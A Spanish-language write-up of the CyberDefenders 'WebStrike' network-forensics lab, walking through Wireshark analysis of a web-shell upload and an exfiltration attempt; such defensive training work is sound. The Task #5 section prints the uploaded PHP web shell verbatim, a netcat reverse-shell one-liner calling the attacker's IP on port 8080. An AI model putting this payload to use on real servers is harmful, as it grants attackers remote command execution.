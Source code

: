 ```yaml
---
title: WebStrike - CyberDefenders
published: 2025-02-16
description: 'En este laboratorio, se investigó un incidente de seguridad en un servidor web mediante un archivo PCAP. Se detectó la carga no autorizada de un web shell malicioso, ejecución de comandos y exfiltración de datos. Se analizan los métodos del atacante, vulnerabilidades explotadas y técnicas para acceso no autorizado al servidor.'
image: '../../../assets/CyberDefenders/WebStrike/webstrike-banner-lab.png'
tags: [CyberDefenders, BlueTeam, Network Forensics, SOC, Wireshark, Windows]
category: 'WriteUp'
draft: false 
---
```


En este laboratorio de **[CyberDefenders](https://cyberdefenders.org/blueteam-ctf-challenges/webstrike/)**, nos adentramos en la investigación forense de una actividad sospechosa detectada en un servidor web de la empresa, capturada y proporcionada en forma de un archivo PCAP para su análisis. El escenario resalta un incidente de seguridad crítico que involucra la carga no autorizada de un web shell malicioso, la ejecución de comandos subsecuentes e intentos de exfiltrar datos sensibles. A través de este análisis, desvelaremos los métodos empleados por el atacante, las vulnerabilidades explotadas y las técnicas utilizadas para mantener el acceso no autorizado al servidor.

~~~
Platform: CyberDefenders
Level: Easy
Type: SOC, Network Forensics
~~~

### Lab Scenario

> Se identificó un archivo sospechoso en el servidor web de la empresa, lo que generó alertas dentro de la intranet. El equipo de Desarrollo marcó la anomalía, sospechando de una posible actividad maliciosa. Para abordar el problema, el equipo de redes capturó el tráfico de red crítico y preparó un archivo PCAP para su revisión. Tu tarea es analizar el archivo PCAP proporcionado para descubrir cómo apareció el archivo y determinar el alcance de cualquier actividad no autorizada.

### Key Information

- Un archivo **`PCAP (Packet Capture)`** es un archivo utilizado para almacenar datos de red capturados, es decir, las comunicaciones o paquetes de datos que viajan a través de una red. Debido a que un archivo PCAP puede contener información sensible, como credenciales o datos personales, su manejo debe ser adecuado para evitar fugas de información.

- La **`data exfiltration`** es el proceso de obtener o transferir datos de un sistema o red sin autorización. Este término se utiliza principalmente en el contexto de la ciberseguridad, donde se refiere al robo o fuga de información sensible, como datos personales, secretos comerciales, información financiera o cualquier otro tipo de dato valioso.

### Analysis

**`Wireshark`** es una de las herramientas más populares y utilizadas para el análisis y captura de paquetes de red. Es un **analizador de protocolos de red** de código abierto que permite a los usuarios capturar, inspeccionar y analizar el tráfico que pasa por una red.

![WebStrike Yw4rf](../../../assets/CyberDefenders/WebStrike/webstrike-1.png)

#### Task #1

> **Identifying the geographical origin of the attack helps in implementing geo-blocking measures and analyzing threat intelligence. From which city did the attack originate?**

La **geolocalización IP** es el proceso mediante el cual se determina la ubicación física asociada a una dirección IP, utilizando datos como el país, la ciudad, la latitud y el proveedor de servicios de internet (ISP). En el ámbito de la ciberseguridad, esta herramienta resulta esencial para identificar el origen de actividades en la red, como ataques o accesos no autorizados, y es fundamental para implementar medidas de geo-bloqueo y ajustar estrategias contra amenazas cibernéticas.

Al abrir el archivo `PCAP` con **Wireshark**, observamos que solo hay dos direcciones IP involucradas:

- **`117.11.88.124`**
- **`24.49.63.79`**

Al ordenar los paquetes por tiempo, descubrimos que la dirección IP **`117.11.88.124`** estableció conexión a la dirección **`24.49.63.79`**, lo que sugiere que esta dirección podría pertenecer al atacante. Utilizando la herramienta **[https://www.iplocation.net/](https://www.iplocation.net/)**, podemos obtener la ciudad de origen del ataque.

![WebStrike Yw4rf](../../../assets/CyberDefenders/WebStrike/webstrike-2.png)

![WebStrike Yw4rf](../../../assets/CyberDefenders/WebStrike/webstrike-3.png)

Por lo visto, la ciudad de origen del ataque es **Tiajin, China** y la victima es procedente de **Maryland, United States**. Por lo que efectivamente, la dirección IP del atacante es **`117.11.88.124`**

![WebStrike Yw4rf](../../../assets/CyberDefenders/WebStrike/task-1.png)

#### Task #2

> **Knowing the attacker's User-Agent assists in creating robust filtering rules. What's the attacker's User-Agent?**

Un **User-Agent (UA)** es una cadena de texto que se incluye en los encabezados HTTP de una solicitud de red, enviada por un cliente (generalmente un navegador web, pero también puede ser una aplicación u otro tipo de cliente) al servidor. Esta cadena proporciona información detallada sobre el software que realiza la solicitud. Buscamos los encabezados **`HTTP`**:

![WebStrike Yw4rf](../../../assets/CyberDefenders/WebStrike/webstrike-4.png)

La cadena **`Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0`**. indica que la solicitud proviene de un navegador **Firefox** versión **115.0**, que se está ejecutando en un sistema **Linux** de 64 bits. El sistema utiliza **X11**, el sistema de ventanas estándar en entornos Unix y Linux. El motor de renderizado utilizado es **Gecko** versión **109.0**, y la fecha de compilación de ese motor es **20100101**. Además, el valor "Mozilla/5.0" es un identificador genérico utilizado para asegurar la compatibilidad con servidores antiguos.

![WebStrike Yw4rf](../../../assets/CyberDefenders/WebStrike/task-2.png)

#### Task #3

> **We need to determine if any vulnerabilities were exploited. What is the name of the malicious web shell that was successfully uploaded?**

Una **web shell** es un script malicioso que se carga en un servidor web para permitir a un atacante ejecutar comandos arbitrarios en el servidor de forma remota. Las **web shells** suelen aprovechar vulnerabilidades en aplicaciones web, como malas configuraciones o fallos en la seguridad de scripts o plataformas (por ejemplo, PHP, ASP, etc.). Una vez instalada, la web shell permite al atacante realizar una variedad de acciones. Básicamente, actúa como una puerta trasera que da acceso al atacante al sistema comprometido, lo que le permite controlar y manipular el servidor sin la autorización del administrador. Los atacantes suelen cargar la web shell mediante formularios de carga de archivos o enviando peticiones con scripts maliciosos. 

En este contexto, el atacante suele utilizar el método **POST** para cargar un archivo malicioso (como un script PHP, ASP, JSP, etc.) en el servidor web. Por lo que al utilizar el filtro **`ip.src == 117.11.88.124 && http.request.method == "POST"`**, podemos concentrarnos en las solicitudes **POST** que provienen de una dirección IP específica, lo cual nos ayuda a identificar posibles cargas de archivos maliciosos o comandos ejecutados desde esa IP hacia el servidor.

![WebStrike Yw4rf](../../../assets/CyberDefenders/WebStrike/webstrike-5.png)

Luego de aplicar el filtro en Wireshark para filtrar por el método **POST**, notamos que se realizó una petición HTTP con la siguiente información:

**POST /reviews/upload.php HTTP/1.1**
- **Content-Type**: `application/x-php`
- **Filename**: `"image.jpg.php"`

Este detalle es altamente sospechoso, ya que aunque el archivo parece ser una imagen (por la extensión **.jpg**), el nombre del archivo termina en **.php**, lo que sugiere que el atacante está intentando subir un archivo PHP malicioso disfrazado de imagen.

![WebStrike Yw4rf](../../../assets/CyberDefenders/WebStrike/task-3.png)

#### Task #4

> **Identifying the directory where uploaded files are stored is crucial for locating the vulnerable page and removing any malicious files. Which directory is used by the website to store the uploaded files?**

Para identificar la ruta en la que se almacena el archivo cargado, en este caso, se utiliza el filtro **`ip.src == 117.11.88.124 && http.request.uri contains "image.jpg.php"`**. Este filtro permite aislar todas las solicitudes **HTTP** relacionadas con la ruta **`image.jpg.php`**, lo cual es crucial para detectar **intentos de ejecución o acceso** al archivo malicioso cargado. Dicho filtro resulta especialmente útil para rastrear los esfuerzos del atacante por interactuar con el archivo y ejecutar código malicioso en el servidor.

![WebStrike Yw4rf](../../../assets/CyberDefenders/WebStrike/webstrike-6.png)

Se observa que la **web shell** se almacena en la ruta **`/reviews/uploads/`**

![WebStrike Yw4rf](../../../assets/CyberDefenders/WebStrike/task-4.png)

#### Task #5 

> **Which port, opened on the attacker's machine, was targeted by the malicious web shell for establishing unauthorized outbound communication?**

Para identificar el puerto abierto en la máquina atacante, es necesario examinar la web shell. Al revisar el payload, podemos observar que el puerto utilizado es el **8080**, ya que en el código de la web shell se encuentra la siguiente instrucción:

**`<?php system("rm /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/sh -i 2>&1 nc 117.11.88.124 8080 >/tmp/f"); ?>`**

Este comando utiliza **Netcat** (`nc`) para establecer una conexión saliente hacia la IP **117.11.88.124** a través del puerto **8080**, lo que confirma que este puerto es el objetivo de la comunicación no autorizada.

![WebStrike Yw4rf](../../../assets/CyberDefenders/WebStrike/webstrike-7.png)

![WebStrike Yw4rf](../../../assets/CyberDefenders/WebStrike/task-5.png)

#### Task #6

> **Recognizing the significance of compromised data helps prioritize incident response actions. Which file was the attacker attempting to exfiltrate?**

Se puede observar que el atacante está utilizando **CURL** para transferir el archivo **`/etc/passwd`** desde la máquina comprometida hacia su propia máquina, estableciendo la comunicación a través del puerto **443**. 

![WebStrike Yw4rf](../../../assets/CyberDefenders/WebStrike/webstrike-8.png)

El archivo **`passwd`** contiene información crítica sobre las cuentas de usuario del sistema, lo que indica que el atacante está intentando exfiltrar datos sensibles.

![WebStrike Yw4rf](../../../assets/CyberDefenders/WebStrike/task-6.png)

**[Verify Achievment](https://cyberdefenders.org/blueteam-ctf-challenges/progress/Yw4rf/149/)**

![WebStrike Yw4rf](../../../assets/CyberDefenders/WebStrike/webstrike-cyberdefenders.png)